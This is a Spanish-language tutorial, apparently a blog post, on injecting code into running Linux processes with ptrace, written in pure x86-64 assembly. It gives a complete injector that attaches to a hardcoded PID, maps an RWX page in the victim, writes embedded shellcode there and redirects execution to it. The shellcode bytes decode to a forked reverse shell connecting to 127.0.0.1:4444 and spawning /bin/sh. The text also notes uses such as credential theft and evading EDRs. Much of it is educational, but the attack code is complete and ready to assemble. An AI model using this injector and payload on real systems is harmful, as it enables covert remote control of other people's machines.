

Process Injection via Ptrace - Just ASM¶

Inyección de código en procesos Linux usando ptrace, implementado completamente en ensamblador x86-64. Sin dependencias externas, sin libc, solo syscalls puras.
Introducción¶
La inyección de procesos es una técnica fundamental en el arsenal de cualquier investigador de seguridad, desarrollador de malware o ingeniero de sistemas. Consiste en insertar y ejecutar código arbitrario dentro del espacio de memoria de un proceso que ya está en ejecución, sin necesidad de modificar el binario original en disco.
¿Por qué es importante?¶
Esta técnica tiene aplicaciones tanto legítimas como maliciosas:
Usos legítimos:
- Depuración: Herramientas como GDB, LLDB y otros depuradores utilizan ptrace para inspeccionar y controlar procesos, establecer breakpoints, y examinar el estado de la memoria y registros.
- Instrumentación dinámica: Herramientas como strace (para trazar syscalls) y ltrace (para trazar llamadas a bibliotecas) dependen completamente de ptrace.
- Profiling y análisis de rendimiento: Permite insertar código de medición sin recompilar la aplicación.
- Hot-patching: Actualizar código en producción sin reiniciar servicios críticos.
Usos maliciosos:
- Malware y rootkits: Inyectar payloads en procesos legítimos para evadir detección.
- Robo de credenciales: Inyectar código en navegadores o gestores de contraseñas.
- Persistencia: Mantener acceso incluso si el binario malicioso original es eliminado.
- Evasión de seguridad: Ejecutar código desde procesos confiables para bypass de firewalls y EDRs.
¿Por qué ensamblador puro?¶
Implementar esta técnica en ensamblador puro (sin libc) tiene varias ventajas:
- Comprensión profunda: Obliga a entender exactamente qué está pasando a nivel de sistema operativo.
- Sin dependencias: El binario resultante no depende de bibliotecas externas.
- Tamaño mínimo: Ideal para shellcodes y payloads donde el espacio es limitado.
- Control total: No hay abstracciones que oculten el comportamiento real.
- Aplicabilidad a shellcode: Las mismas técnicas se usan para escribir shellcodes position-independent.
La Syscall ptrace¶
ptrace (process trace) es una syscall de Linux que proporciona a un proceso (llamado tracer) la capacidad de observar y controlar la ejecución de otro proceso (llamado tracee). Es la base sobre la que se construyen los depuradores en Linux.
Prototipo¶
En ensamblador x86-64:
- RAX = 101 (número de syscall para ptrace)
- RDI = request (operación a realizar)
- RSI = pid (PID del proceso objetivo)
- RDX = addr (dirección, uso depende de la operación)
- R10 = data (datos, uso depende de la operación)
Operaciones de ptrace utilizadas¶
PTRACE_ATTACH (16 / 0x10)¶
mov rax, 101
mov rdi, 16 ; PTRACE_ATTACH
mov rsi, <pid> ; PID del proceso objetivo
xor rdx, rdx
xor r10, r10
syscall
Propósito: Adjuntarse a un proceso existente para controlarlo.
Comportamiento:
- El tracer se convierte en el "padre" del tracee para efectos de ptrace.
- El kernel envía una señal
SIGSTOPal tracee, deteniendo su ejecución. - El tracee queda en estado "stopped" hasta que el tracer lo reanude.
- Requiere que el tracer tenga permisos adecuados (mismo UID, CAP_SYS_PTRACE, o root).
Importante: Después de PTRACE_ATTACH, siempre debes llamar a wait() o waitpid() para sincronizarte con la detención del proceso.
PTRACE_GETREGS (12 / 0x0C)¶
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, <pid>
xor rdx, rdx
lea r10, [rel buffer] ; puntero a user_regs_struct
syscall
Propósito: Obtener todos los registros del CPU del tracee.
Comportamiento:
- Copia el estado completo de los registros del tracee a un buffer en el tracer.
- El buffer debe tener espacio para
user_regs_struct(216 bytes en x86-64). - Incluye registros de propósito general, RIP, RSP, flags, y registros de segmento.
Uso típico: Guardar el estado original antes de modificar el proceso, para poder restaurarlo después.
PTRACE_SETREGS (13 / 0x0D)¶
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, <pid>
xor rdx, rdx
lea r10, [rel buffer] ; puntero a user_regs_struct modificada
syscall
Propósito: Establecer todos los registros del CPU del tracee.
Comportamiento:
- Sobrescribe todos los registros del tracee con los valores del buffer.
- Permite modificar el flujo de ejecución cambiando RIP.
- Permite configurar argumentos para syscalls cambiando RDI, RSI, RDX, etc.
Uso típico: Preparar el tracee para ejecutar una syscall específica (como mmap) o redirigir la ejecución a código inyectado.
PTRACE_PEEKDATA (2 / 0x02)¶
mov rax, 101
mov rdi, 2 ; PTRACE_PEEKDATA
mov rsi, <pid>
mov rdx, <addr> ; dirección a leer en el tracee
lea r10, [rsp] ; donde guardar el resultado
syscall
Propósito: Leer datos de la memoria del tracee.
Comportamiento:
- Lee exactamente 8 bytes (un qword en x86-64) de la dirección especificada.
- Los datos se devuelven en el puntero proporcionado en R10.
- La dirección debe ser válida en el espacio de direcciones del tracee.
Uso típico: Leer las instrucciones originales antes de sobrescribirlas, o inspeccionar datos en memoria.
PTRACE_POKEDATA (5 / 0x05)¶
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, <pid>
mov rdx, <addr> ; dirección a escribir en el tracee
mov r10, <value> ; valor de 8 bytes a escribir
syscall
Propósito: Escribir datos en la memoria del tracee.
Comportamiento:
- Escribe exactamente 8 bytes en la dirección especificada del tracee.
- Puede escribir en cualquier región de memoria, incluso en regiones de solo lectura (como .text).
- El kernel bypasea las protecciones de memoria normales.
Uso típico: Inyectar instrucciones, modificar datos, o escribir shellcode en memoria.
PTRACE_SINGLESTEP (9 / 0x09)¶
Propósito: Ejecutar una sola instrucción del tracee y detenerse.
Comportamiento:
- Reanuda el tracee.
- El tracee ejecuta exactamente una instrucción.
- El tracee se detiene de nuevo automáticamente.
- El tracer debe llamar a
wait()para sincronizarse.
Uso típico: Ejecutar una syscall (como mmap) que hemos configurado previamente, y luego recuperar el resultado.
PTRACE_DETACH (17 / 0x11)¶
mov rax, 101
mov rdi, 17 ; PTRACE_DETACH
mov rsi, <pid>
xor rdx, rdx
xor r10, r10 ; signal = 0 (no enviar señal)
syscall
Propósito: Desconectarse del tracee y permitir que continúe su ejecución normal.
Comportamiento:
- Termina la relación tracer-tracee.
- El tracee continúa ejecutándose normalmente.
- Opcionalmente puede enviar una señal al tracee (nosotros enviamos 0 = ninguna).
Uso típico: Liberar el proceso después de haber completado la inyección.
Estructura user_regs_struct¶
En x86-64 Linux, la estructura user_regs_struct contiene todos los registros del CPU. Conocer su layout es esencial para manipular el estado del proceso:
| Offset | Registro | Descripción |
|---|---|---|
| 0x00 | r15 | Registro de propósito general (callee-saved) |
| 0x08 | r14 | Registro de propósito general (callee-saved) |
| 0x10 | r13 | Registro de propósito general (callee-saved) |
| 0x18 | r12 | Registro de propósito general (callee-saved) |
| 0x20 | rbp | Base pointer (callee-saved) |
| 0x28 | rbx | Registro de propósito general (callee-saved) |
| 0x30 | r11 | Clobbered por syscall (almacena RFLAGS) |
| 0x38 | r10 | 4to argumento de syscall |
| 0x40 | r9 | 6to argumento de syscall |
| 0x48 | r8 | 5to argumento de syscall |
| 0x50 | rax | Número de syscall / valor de retorno |
| 0x58 | rcx | Clobbered por syscall (almacena RIP de retorno) |
| 0x60 | rdx | 3er argumento de syscall |
| 0x68 | rsi | 2do argumento de syscall |
| 0x70 | rdi | 1er argumento de syscall |
| 0x78 | orig_rax | Número original de syscall (para restart) |
| 0x80 | rip | Instruction pointer (próxima instrucción) |
| 0x88 | cs | Code segment |
| 0x90 | eflags | Flags del CPU |
| 0x98 | rsp | Stack pointer |
| 0xA0 | ss | Stack segment |
| 0xA8 | fs_base | Base del segmento FS (usado para TLS) |
| 0xB0 | gs_base | Base del segmento GS |
| 0xB8 | ds | Data segment |
| 0xC0 | es | Extra segment |
| 0xC8 | fs | FS segment |
| 0xD0 | gs | GS segment |
La estructura tiene un tamaño total de 27 qwords (216 bytes).
Consideraciones sobre Little-Endian¶
x86-64 usa little-endian, lo que significa que el byte menos significativo (LSB) se almacena primero en memoria. Esto es crucial al trabajar con valores en memoria:
Valor en registro: 0x00007ffe6f9001b0
Descomposición:
0x 00 00 7f fe 6f 90 01 b0
▲ ▲
│ │
MSB LSB
(más significativo) (menos significativo)
En memoria (little-endian, LSB primero):
RIP → 0x7f7a85496687: ┌────┐
│ b0 │ ← Primer byte en memoria
0x7f7a85496688: ├────┤
│ 01 │
0x7f7a85496689: ├────┤
│ 90 │
0x7f7a8549668a: ├────┤
│ 6f │
0x7f7a8549668b: ├────┤
│ fe │
0x7f7a8549668c: ├────┤
│ 7f │
0x7f7a8549668d: ├────┤
│ 00 │
0x7f7a8549668e: ├────┤
│ 00 │
└────┘
Por esto, cuando inyectamos la instrucción syscall (bytes 0x0F 0x05), debemos usar el valor 0x050F en little-endian para que se almacene correctamente como 0F 05 en memoria.
Flujo general de la inyección¶
Antes de ver el código, entendamos el flujo completo:
┌─────────────────────────────────────────────────────────────────┐
│ 1. ATTACH: Conectarse al proceso víctima │
│ └─> El proceso se detiene (SIGSTOP) │
├─────────────────────────────────────────────────────────────────┤
│ 2. GETREGS: Guardar estado original │
│ └─> Backup de todos los registros │
├─────────────────────────────────────────────────────────────────┤
│ 3. PEEKDATA + POKEDATA: Inyectar instrucción "syscall" │
│ └─> Sobrescribir temporalmente donde apunta RIP │
├─────────────────────────────────────────────────────────────────┤
│ 4. SETREGS: Configurar registros para mmap() │
│ └─> RAX=9, RDI=0, RSI=4096, RDX=7, R10=34, R8=-1, R9=0 │
├─────────────────────────────────────────────────────────────────┤
│ 5. SINGLESTEP: Ejecutar mmap() en contexto víctima │
│ └─> Se reserva memoria RWX, dirección en RAX │
├─────────────────────────────────────────────────────────────────┤
│ 6. GETREGS: Obtener resultado de mmap │
│ └─> RAX contiene la dirección de la nueva memoria │
├─────────────────────────────────────────────────────────────────┤
│ 7. POKEDATA: Restaurar bytes originales │
│ └─> Devolver el código original donde estaba RIP │
├─────────────────────────────────────────────────────────────────┤
│ 8. SETREGS: Restaurar registros originales │
│ └─> El proceso podría continuar normalmente │
├─────────────────────────────────────────────────────────────────┤
│ 9. POKEDATA: Guardar RIP de retorno en memoria mmap │
│ └─> Al final de la página (offset +4088) │
├─────────────────────────────────────────────────────────────────┤
│ 10. POKEDATA (loop): Escribir shellcode │
│ └─> Copiar shellcode byte a byte a memoria RWX │
├─────────────────────────────────────────────────────────────────┤
│ 11. SETREGS: Redirigir RIP al shellcode │
│ └─> RIP = dirección base de mmap │
├─────────────────────────────────────────────────────────────────┤
│ 12. DETACH: Liberar proceso │
│ └─> El proceso continúa ejecutando el shellcode │
└─────────────────────────────────────────────────────────────────┘
Inyector Principal (proc_inj.asm)¶
A continuación se presenta el código completo del inyector con explicaciones detalladas de cada sección:
section .data
shellcode:
db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
db 0x83, 0xf8, 0x00, 0x74, 0x11, 0x4c, 0x8d, 0x1d
db 0xec, 0xff, 0xff, 0xff, 0x4d, 0x8b, 0xb3, 0xf8
db 0x0f, 0x00, 0x00, 0x41, 0xff, 0xe6, 0xb8, 0x70
db 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x29, 0x00
db 0x00, 0x00, 0xbf, 0x02, 0x00, 0x00, 0x00, 0xbe
db 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2, 0x0f
db 0x05, 0x49, 0x89, 0xc0, 0xb8, 0x2a, 0x00, 0x00
db 0x00, 0x4c, 0x89, 0xc7, 0x4d, 0x31, 0xc9, 0x41
db 0x51, 0x49, 0xba, 0x02, 0x00, 0x11, 0x5c, 0x7f
db 0x00, 0x00, 0x01, 0x41, 0x52, 0x48, 0x89, 0xe6
db 0xba, 0x10, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
db 0x31, 0xf6, 0xb8, 0x21, 0x00, 0x00, 0x00, 0x4c
db 0x89, 0xc7, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48
db 0x83, 0xfe, 0x03, 0x7c, 0xed, 0xb8, 0x3b, 0x00
db 0x00, 0x00, 0x6a, 0x00, 0x49, 0xbc, 0x2f, 0x62
db 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x41, 0x54
db 0x48, 0x89, 0xe7, 0x6a, 0x00, 0x48, 0x89, 0xe6
db 0x6a, 0x00, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xb8
db 0x3c, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x0f
db 0x05, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
sc_len equ $ - shellcode
section .bss
regs resq 27 ; sizeof(user_regs_struct) en x86_64 (27x8 bytes)
regs_ori resq 27
regs_sys resq 27
section .text
global _start
_start:
; PID
mov r15, 26559
; 1 Attach y detención del proceso:
; PTRACE_ATTACH
mov rax, 101
mov rdi, 16 ; PTRACE_ATTACH (0x10)
mov rsi, r15 ; PID
xor rdx,rdx ; addr
xor r10, r10 ; data
syscall
; WAIT4:
; Cuando se hace PTRACE_ATTACH, el kernel envía SIGSTOP al proceso objetivo.
; Es necesario llamar a wait4 para bloquear al tracer hasta que el proceso tracee
; esté efectivamente detenido antes de poder manipularlo.
mov rax, 61
mov rdi, r15 ; PID a esperar (-1 para cualquier hijo)
sub rsp, 8
mov rsi, rsp ; &status
xor rdx, rdx ; options
xor r10, r10 ; rusage
syscall
; -----------------------------------------
; 2 Preservación del contexto de ejecución
; PTRACE_GETREGS
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs] ; puntero al buffer donde se va almacenar la estructura de registros
syscall
; En este punto, regs contiene:
; 0x00 r15
; 0x08 r14
; 0x10 r13
; 0x18 r12
; 0x20 rbp
; 0x28 rbx
; 0x30 r11
; 0x38 r10
; 0x40 r9
; 0x48 r8
; 0x50 rax
; 0x58 rcx
; 0x60 rdx
; 0x68 rsi
; 0x70 rdi
; 0x78 orig_rax
; 0x80 rip
; 0x88 cs
; 0x90 eflags
; 0x98 rsp
; 0xA0 ss
; 0xA8 fs_base
; 0xB0 gs_base
; 0xB8 ds
; 0xC0 es
; 0xC8 fs
; 0xD0 gs
; Copia de los registros originales del traceee en el buffer de backup
lea rsi, [rel regs] ; RSI se usa como puntero de origen y va avanzando
lea rdi, [rel regs_ori] ; RDI se usa como puntero destino y va avanzando
mov rcx, 27 ; RCX se usa como contador y se va decrementando hasta 0
cld ; DF=0 (dirección de copia ascendente)
rep movsq ; mueve RCX qwords: [RSI] -> [RDI]
; movsq copia un qword (8 bytes) desde la dirección apuntada por RSI hacia la dirección apuntada por RDI
; rep repite esa operación RCX veces
; -----------------------------------------
; 3 Inyección de la instrucción syscall (0x0f 0x05)
mov r12, [regs+0x80] ; Contenido del RIP del proceso tracee (dirección de la próxima instrucción a ejecutar)
; PTRACE_PEEKDATA (leer memoria) Se leen 8 bytes a partir de la dirección actual a la que apunta el RIP del proceso tracee
mov rax, 101
mov rdi, 2 ; PTRACE_PEEKDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
sub rsp, 8 ; 8 bytes
mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
syscall
mov r11, [rsp] ; En r11 y en el tope del stack se encuentra el valor al que apunta RIP del tracee
mov r13, r11 ; Backup del valor original
and r11, 0xFFFFFFFFFFFF0000 ; limpiar los 2 bytes bajos
or r11, 0x000000000000050F ; insertar syscall (0x0f 0x05 en little-endian)
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
mov r10, r11 ; valor de 8 bytes a escribir
syscall
; -----------------------------------------
; 4 Configuración de registros para MMAP
; MMAP
mov qword [regs+0x50], 9 ; (RAX) Se sustituye todo el valor del registro Número de syscall para mmap
mov qword [regs+0x70],0 ; (RDI) rdi = addr = 0 (NULL) → Pide al kernel que elija la dirección
mov qword [regs+0x68],4096 ; (RSI) rsi = length = 4096 bytes (1 página típica)
mov qword [regs+0x60],7 ; (RDX) rdx = prot = 7 => PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)
mov qword [regs+0x38],34 ; (R10) r10 = flags = 34 => MAP_PRIVATE(0x2) | MAP_ANONYMOUS(0x20)
mov qword [regs+0x48],-1 ; (R8) r8 = fd = -1 (usado con MAP_ANONYMOUS; -1 indica "no file")
mov qword [regs+0x40],0 ; (R9) r9 = offset = 0 (desplazamiento en el fd; irrelevante con ANONYMOUS)
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs] ; puntero al buffer donde se encuentra la estructura de registros
syscall
; -----------------------------------------
; 5 Ejecución controlada de la syscall MMAP
;PTRACE_SINGLESTEP
mov rax, 101
mov rdi, 9 ; PTRACE_SINGLESTEP
mov rsi, r15 ; PID
xor rdx, rdx ; addr
xor r10, r10 ; data
syscall
; WAIT4:
mov rax, 61
mov rdi, r15 ; PID a esperar (-1 para cualquier hijo)
sub rsp, 8
mov rsi, rsp ; &status
xor rdx, rdx ; options
xor r10, r10 ; rusage
syscall
; PTRACE_GETREGS
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_sys] ; puntero al buffer donde se va almacenar la estructura de registros
syscall
; -----------------------------------------
; 6 Obtención del resultado de la syscall MMAP
xor r12, r12
mov r12, [regs_sys+0x50] ; (RAX) dirección donde comienza la zona de memoria reservada com permisos RWX
; -----------------------------------------
; 7 Restauración del contenido ubicado en la dirección a la que apunta el registro RIP del tracee
xor r14, r14
mov r14, [regs_ori+0x80]
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r14 ; addr
mov r10, r13 ; valor de 8 bytes a escribir
syscall
; Comprobación de que se haya restaurado el bytearray de manera adecuada
; PTRACE_PEEKDATA (leer memoria)
;mov rax, 101
;mov rdi, 2 ; PTRACE_PEEKDATA
;mov rsi, r15 ; PID
;mov rdx, r14 ; addr
;sub rsp, 8
;mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
;syscall
; -----------------------------------------
; 8 Restauración de los registros originales del proceso tracee
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
syscall
; -----------------------------------------
; 9 Almacenamiento del RIP de retorno en los últimos 8 bytes de la región de memoria reservada por MMAP
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
lea rdx, [r12+4088] ; addr
mov r10, r14 ; valor de 8 bytes a escribir
syscall
; Verificar que se ha escrito el valor del RIP de retorno en la región de memoria reservada por MMAP
; PTRACE_PEEKDATA
;mov rax, 101
;mov rdi, 2 ; PTRACE_PEEKDATA
;mov rsi, r15 ; PID
;lea rdx, [r12+4088] ; addr
;sub rsp, 8 ; 8 bytes
;mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
;syscall
; -----------------------------------------
; 10 Inyección del shellcode en la zona de memoria reservada
xor r13,r13
lea r13, [rel shellcode] ; puntero al shellcode
xor r14, r14
mov r14, sc_len / 8 ; contador de palabras a escribir
push r12
.loop_inj:
cmp r14, 0 ; compara el contador de palabras a escribir con 0
jz .done ; si contador == 0, saltar a .done
; PTRACE_POKEDATA
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
mov r10, [r13] ; valor de 8 bytes a escribir
syscall
add r12, 8
add r13, 8
dec r14
jmp .loop_inj
; -----------------------------------------
.done
; Verificar que el shellcode se escribió bien
;mov rax, 101
;mov rdi, 2 ; PTRACE_PEEKDATA
;mov rsi, r15
;mov rdx, r12 ; dirección mmap
;sub rsp, 8 ; 8 bytes
;mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
;syscall
pop r12
mov qword [regs_ori+0x80], r12 ; RIP == dirección del inicio de la memoria reservada == inicio del shellcode
mov qword [regs_ori+0x78], -1 ; orig_rax = -1 (evita syscall restart)
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
syscall
; PTRACE_DETACH
mov rax, 101
mov rdi, 17 ; PTRACE_DETACH
mov rsi, r15 ; PID
xor rdx, rdx ; addr
xor r10, r10 ; signal = 0 (no enviar señal)
syscall
; EXIT
mov rax, 60
xor rdi,rdi
syscall
;Explicar fork, setsid y munmap
Explicación detallada del código¶
Sección .data - El shellcode embebido¶
section .data
shellcode:
db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
; ... más bytes ...
sc_len equ $ - shellcode
Esta sección contiene el shellcode en formato de bytes crudos. Es el código que será inyectado en el proceso víctima. El shellcode está pre-compilado y representa el programa proc_inj_rev_tcp.asm que veremos más adelante.
sc_len calcula automáticamente el tamaño del shellcode usando la directiva $ (dirección actual) menos la dirección de inicio.
Sección .bss - Buffers para registros¶
section .bss
regs resq 27 ; Buffer para registros actuales
regs_ori resq 27 ; Backup de registros originales
regs_sys resq 27 ; Registros después de syscall
Reservamos tres buffers de 27 qwords (216 bytes) cada uno:
- regs: Almacena los registros que vamos a modificar.
- regs_ori: Copia de seguridad de los registros originales.
- regs_sys: Almacena los registros después de ejecutar mmap (para obtener el resultado).
Paso 1: Attach y detención del proceso¶
mov r15, 26559 ; PID del proceso objetivo (cambiar según necesidad)
; PTRACE_ATTACH
mov rax, 101 ; syscall: ptrace
mov rdi, 16 ; request: PTRACE_ATTACH
mov rsi, r15 ; pid: proceso objetivo
xor rdx, rdx ; addr: no usado
xor r10, r10 ; data: no usado
syscall
¿Qué hace?
Nos adjuntamos al proceso víctima usando PTRACE_ATTACH. Esto tiene varios efectos:
- Establecemos una relación tracer-tracee con el proceso.
- El kernel envía
SIGSTOPal proceso víctima, deteniéndolo. - Obtenemos permisos para leer/escribir su memoria y registros.
¿Por qué wait4?
mov rax, 61 ; syscall: wait4
mov rdi, r15 ; pid: esperar a este proceso específico
sub rsp, 8
mov rsi, rsp ; &status: donde guardar el estado
xor rdx, rdx ; options: 0
xor r10, r10 ; rusage: NULL
syscall
Después de PTRACE_ATTACH, el proceso no se detiene inmediatamente. El SIGSTOP es asíncrono. Debemos llamar a wait4 para bloquearnos hasta que el proceso esté efectivamente detenido. Sin esto, podríamos intentar manipular un proceso que aún está ejecutándose, causando comportamiento indefinido.
Paso 2: Preservación del contexto de ejecución¶
; PTRACE_GETREGS
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, r15 ; PID
xor rdx, rdx
lea r10, [rel regs] ; Buffer destino
syscall
¿Qué hace?
Obtenemos una copia completa de todos los registros del proceso víctima. Esto nos da:
- El valor actual del RIP (dónde está ejecutando).
- Todos los registros de propósito general.
- Los flags del CPU.
- El stack pointer.
¿Qué hace?
Copiamos los 27 qwords de regs a regs_ori usando rep movsq. Esta es una copia de seguridad que usaremos para:
- Restaurar el proceso a su estado original después de ejecutar mmap.
- Saber cuál era el RIP original para poder volver después del shellcode.
La instrucción cld asegura que la copia se haga en dirección ascendente (DF=0).
Paso 3: Inyección de la instrucción syscall¶
Leemos el RIP del proceso víctima. Esta es la dirección de la próxima instrucción que iba a ejecutar.
; PTRACE_PEEKDATA - Leer bytes originales
mov rax, 101
mov rdi, 2 ; PTRACE_PEEKDATA
mov rsi, r15
mov rdx, r12 ; Dirección a leer (RIP del tracee)
sub rsp, 8
mov r10, rsp ; Donde guardar el resultado
syscall
¿Qué hace?
Leemos los 8 bytes que están en la dirección donde apunta el RIP. Estos son las instrucciones que el proceso iba a ejecutar. Necesitamos guardarlos para restaurarlos después.
mov r11, [rsp] ; Valor original
mov r13, r11 ; Backup en r13
and r11, 0xFFFFFFFFFFFF0000 ; Limpiar 2 bytes bajos
or r11, 0x000000000000050F ; Insertar "syscall" (0F 05)
¿Qué hace?
- Guardamos el valor original en R13 (lo necesitaremos para restaurar).
- Limpiamos los 2 bytes menos significativos del qword.
- Insertamos los bytes
0F 05(instrucciónsyscallen x86-64).
¿Por qué 0x050F y no 0x0F05?
Por little-endian. Queremos que en memoria quede 0F 05, así que el valor en el registro debe ser 050F (bytes invertidos).
; PTRACE_POKEDATA - Escribir syscall
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15
mov rdx, r12 ; Dirección donde escribir
mov r10, r11 ; Valor con "syscall" inyectado
syscall
¿Qué hace?
Sobrescribimos los primeros 2 bytes donde apunta el RIP con la instrucción syscall. Ahora, cuando el proceso continúe, ejecutará syscall en lugar de su instrucción original.
Paso 4: Configuración de registros para MMAP¶
mov qword [regs+0x50], 9 ; RAX = 9 (syscall mmap)
mov qword [regs+0x70], 0 ; RDI = 0 (addr NULL)
mov qword [regs+0x68], 4096 ; RSI = 4096 (tamaño)
mov qword [regs+0x60], 7 ; RDX = 7 (RWX)
mov qword [regs+0x38], 34 ; R10 = 34 (PRIVATE|ANONYMOUS)
mov qword [regs+0x48], -1 ; R8 = -1 (no fd)
mov qword [regs+0x40], 0 ; R9 = 0 (offset)
¿Qué hace?
Configuramos los registros en nuestro buffer para que cuando los apliquemos al tracee, ejecute:
Esto reservará 4096 bytes de memoria con permisos de lectura, escritura y ejecución.
Desglose de argumentos:
| Registro | Offset | Valor | Significado |
|---|---|---|---|
| RAX | 0x50 | 9 | Número de syscall mmap |
| RDI | 0x70 | 0 | addr = NULL (kernel elige) |
| RSI | 0x68 | 4096 | length = 4096 bytes |
| RDX | 0x60 | 7 | prot = RWX |
| R10 | 0x38 | 34 | flags = PRIVATE | ANONYMOUS |
| R8 | 0x48 | -1 | fd = -1 (no archivo) |
| R9 | 0x40 | 0 | offset = 0 |
; PTRACE_SETREGS - Aplicar configuración
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15
xor rdx, rdx
lea r10, [rel regs]
syscall
Aplicamos estos registros modificados al proceso víctima.
Paso 5: Ejecución controlada de la syscall MMAP¶
; PTRACE_SINGLESTEP
mov rax, 101
mov rdi, 9 ; PTRACE_SINGLESTEP
mov rsi, r15
xor rdx, rdx
xor r10, r10
syscall
¿Qué hace?
Le decimos al tracee que ejecute una sola instrucción y se detenga. Esa instrucción es el syscall que inyectamos, que ahora ejecutará mmap con los argumentos que configuramos.
; WAIT4 - Esperar a que se detenga
mov rax, 61
mov rdi, r15
sub rsp, 8
mov rsi, rsp
xor rdx, rdx
xor r10, r10
syscall
Esperamos a que el proceso se detenga después de ejecutar la instrucción.
; PTRACE_GETREGS - Obtener resultado
mov rax, 101
mov rdi, 12
mov rsi, r15
xor rdx, rdx
lea r10, [rel regs_sys]
syscall
Obtenemos los registros después de la syscall. El resultado de mmap estará en RAX.
Paso 6: Obtención del resultado de MMAP¶
¿Qué hace?
Extraemos el valor de RAX del buffer de registros. Este valor es la dirección base de la memoria que acabamos de reservar. Esta memoria tiene permisos RWX, perfecta para nuestro shellcode.
Paso 7: Restauración de los bytes originales¶
xor r14, r14
mov r14, [regs_ori+0x80] ; RIP original
; PTRACE_POKEDATA - Restaurar bytes
mov rax, 101
mov rdi, 5
mov rsi, r15
mov rdx, r14 ; Dirección original del RIP
mov r10, r13 ; Bytes originales (guardados en paso 3)
syscall
¿Qué hace?
Restauramos los bytes originales que sobrescribimos con syscall. Esto es importante porque:
- No queremos dejar rastros de nuestra modificación.
- El código original debe poder ejecutarse si el proceso vuelve a esa dirección.
Paso 8: Restauración de los registros originales¶
¿Qué hace?
Restauramos todos los registros del proceso a sus valores originales. En este punto, el proceso está exactamente como estaba antes de que lo tocáramos (excepto que ahora tiene una región de memoria RWX adicional).
Paso 9: Almacenamiento del RIP de retorno¶
; PTRACE_POKEDATA
mov rax, 101
mov rdi, 5
mov rsi, r15
lea rdx, [r12+4088] ; Final de la página mmap
mov r10, r14 ; RIP original
syscall
¿Qué hace?
Escribimos el RIP original al final de la región mmap (offset +4088, dejando espacio para los 8 bytes del qword).
¿Por qué?
Nuestro shellcode usa fork(). El proceso padre necesita saber a dónde volver después de ejecutar el shellcode. Guardamos esta dirección de retorno en un lugar conocido (final de la página mmap) donde el shellcode puede encontrarla.
Paso 10: Inyección del shellcode¶
xor r13, r13
lea r13, [rel shellcode] ; Puntero al shellcode
xor r14, r14
mov r14, sc_len / 8 ; Número de qwords a escribir
push r12 ; Guardar dirección base
.loop_inj:
cmp r14, 0
jz .done
; PTRACE_POKEDATA
mov rax, 101
mov rdi, 5
mov rsi, r15
mov rdx, r12 ; Dirección destino
mov r10, [r13] ; 8 bytes del shellcode
syscall
add r12, 8 ; Avanzar destino
add r13, 8 ; Avanzar origen
dec r14 ; Decrementar contador
jmp .loop_inj
¿Qué hace?
Copiamos el shellcode a la memoria RWX del proceso víctima, 8 bytes a la vez usando PTRACE_POKEDATA en un bucle.
¿Por qué un bucle?
PTRACE_POKEDATA solo puede escribir 8 bytes por llamada. Como nuestro shellcode es más grande, necesitamos múltiples llamadas.
Finalización y DETACH¶
.done:
pop r12 ; Recuperar dirección base
mov qword [regs_ori+0x80], r12 ; RIP = inicio del shellcode
mov qword [regs_ori+0x78], -1 ; orig_rax = -1
; PTRACE_SETREGS - Redirigir al shellcode
mov rax, 101
mov rdi, 13
mov rsi, r15
xor rdx, rdx
lea r10, [rel regs_ori]
syscall
; PTRACE_DETACH - Liberar proceso
mov rax, 101
mov rdi, 17
mov rsi, r15
xor rdx, rdx
xor r10, r10
syscall
; EXIT
mov rax, 60
xor rdi, rdi
syscall
¿Qué hace?
